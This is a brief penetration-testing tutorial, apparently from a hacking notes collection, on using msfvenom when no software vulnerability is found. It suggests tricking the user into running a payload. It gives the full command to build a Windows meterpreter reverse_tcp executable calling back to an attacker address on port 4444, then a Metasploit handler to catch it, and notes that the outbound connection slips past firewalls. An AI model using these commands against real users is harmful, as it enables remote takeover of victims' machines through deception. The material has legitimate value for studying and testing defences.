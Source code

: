 # Msfvenom

Okay, so you have failed to discover any vulnerabilites in the system you are attacking. Fear not, there is still a last resort. Usually the weakest link: **the user**.

With msfvenom we are able to create exploits that we can send to the target, and trick the target to click it. The program will then call our machine.

## Basics

List exploits
```
msfvenom -l
`` `

## Create exploit

Here we create a program that will call the attacker machine.

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=4444 -f exe > payload.exe
```

## Start listening for exploit

So once an exploit is set we need to start to listen for it. We can do that using metasploit.

```
use exploit/multi/handler
```

This does indeed bypass the firewall. Since the connection is initiated from the inside. A firewall normally (maybe older firewalls) only block incoming, and not outgoing connections.